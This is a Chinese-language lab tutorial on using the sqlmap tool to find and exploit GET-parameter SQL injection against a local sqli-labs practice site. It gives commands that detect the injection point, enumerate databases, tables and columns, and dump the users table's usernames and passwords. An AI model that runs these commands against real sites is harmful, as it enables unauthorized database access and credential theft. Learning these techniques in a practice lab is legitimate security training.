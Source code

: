 # SQL注入之sqlmap使用(get型注入)

#### 一、SQLMap介绍

##### 1、Sqlmap简介：

Sqlmap是一个开源的渗透测试工具，可以用来自动化的检测，利用SQL注入漏洞，获取数据库服务器的权限。它具有功能强大的检测引擎，针对各种不同类型数据库的渗透测试的功能选项，包括获取数据库中存储的数据，访问操作系统文件甚至可以通过外带数据连接的方式执行操作系统命令。

目前支持的数据库有MySQL、Oracle、PostgreSQL、Microsoft SQL Server、Microsoft Access等大多数据库。

##### 2、Sqlmap支持的注入方式：

Sqlmap全面支持六种SQL注入技术：

* 基于布尔类型的盲注：即可以根据返回页面判断条件真假的注入。
* 基于时间的盲注：即不能根据页面返回的内容判断任何信息，要用条件语句查看时间延迟语句是否已执行(即页面返回时间是否增加)来判断。
* 基于报错注入：即页面会返回错误信息，或者把注入的语句的结果直接返回到页面中。
* 联合查询注入：在可以使用Union的情况下的注入。
* 堆查询注入：可以同时执行多条语句时的注入。
* 带外注入：构造SQL语句，这些语句在呈现给数据库时会触发数据库系统创建与攻击者控制的外部服务器的连接。以这种方式，攻击者可以收集数据或可能控制数据库的行为。

#### 二、SQLMap使用：

##### 1、判断是否存在注入：

假设目标注入点是 `http://127.0.0.1/sqli-labs/Less-1/?id=1`，判断其是否存在注入的命令如下：

```
sqlmap.py -u "http://localhost/sqli-labs-php7-master/Less-2/?id=1"

```

用于测试该网站id参数是否有注入点。

![image-20240718155208960](6.1SQL注入之sqlmap使用(get型注入)/image-20240718155208960.png)	

通过工具得知get请求可以用很多注入爆破该网站。

比如说可以根据id这个参数，进行布尔盲注、报错盲注、时延注入、联合查询注入

![image-20240718155330480](6.1SQL注入之sqlmap使用(get型注入)/image-20240718155330480.png)	

当注入点后面的参数大于等于两个时,需要加双引号，如下所示。

```
sqlmap.py -u "http://127.0.0.1/sqli-labs/Less-1/?id=1&uid=2"

```

运行完判断是否存在注入的语句后，爆出一大段代码，这里有三处需要选择的地方：第一处的意思为检测到数据库可能是MySQL，是否需要跳过检测其他数据库；第二处的意思是在“level1、risk1”的情况下，是否使用MySQL对应的所有Payload进行检测；第三处的意思是参数 `id`存在漏洞，是否要继续检测其他参数，一般默认按回车键即可。

常用命令：

```

-u:用于get提交方式，后面跟注入的url网址
--level
--risk

--dbs：获取所有数据库
--tales：获取所有数据表
--columns：获取所有字段
--dump：打印数据

-D：查询选择某个库
-T：查询选择某个表
-C：查询选择某个字段
level：执行测试的等级（1~5，默认为1），使用-level参数并且数值>=2的时候会检查cookie里面的参数，
	当>=3时检查user-agent和refereer
          risk：执行测试的风险（0~3,默认为1），默认是1会测试大部分的测试语句，2会增加基于事件的测试语句，
	3会增加or语句的sql注入
```

根据level参数来修改执行测试的等级。

```
sqlmap.py -u "http://localhost/sqli-labs-php7-master/Less-2/?id=1" --level 3
```

该命令用于查看这个网站有哪些数据库

```
sqlmap.py -u "http://localhost/sqli-labs-php7-master/Less-2/?id=1" --dbs
```

![image-20240718161030547](6.1SQL注入之sqlmap使用(get型注入)/image-20240718161030547.png)	

查看该网站中的security数据库有哪些表。

```
sqlmap.py -u "http://localhost/sqli-labs-php7-master/Less-2/?id=1" -D "security" --tables
```

![image-20240718161210571](6.1SQL注入之sqlmap使用(get型注入)/image-20240718161210571.png)	

查看users表有哪些字段

```
sqlmap.py -u "http://localhost/sqli-labs-php7-master/Less-2/?id=1" -D "security" -T "users" --columns
```

![image-20240718161322188](6.1SQL注入之sqlmap使用(get型注入)/image-20240718161322188.png)	

获取user表中username和password字段的所有数据。

```
sqlmap.py -u "http://localhost/sqli-labs-php7-master/Less-2/?id=1" -D "security" -T "users" -C "username,password" --dump
```

![image-20240718161532022](6.1SQL注入之sqlmap使用(get型注入)/image-20240718161532022.png)	

